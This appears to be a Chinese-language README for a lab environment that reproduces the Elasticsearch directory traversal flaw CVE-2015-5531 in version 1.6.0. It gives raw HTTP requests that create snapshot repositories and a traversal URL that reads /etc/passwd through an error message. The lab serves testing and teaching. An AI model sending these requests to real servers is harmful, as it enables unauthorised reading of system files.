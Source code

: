 # ElasticSearch 目录穿越漏洞（CVE-2015-5531）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.6.0

影响版本：1.6.1以下

## 原理

参考文章

- https://www.exploit-db.com/exploits/38383/
- http://www.freebuf.com/vuls/99942.html

说明：

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

## 漏洞复现

### 1. 新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

![](1.png)

### 2. 创建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

![](2.png)

### 3. 目录穿越读取任意文件

访问 `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](3.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](4.png)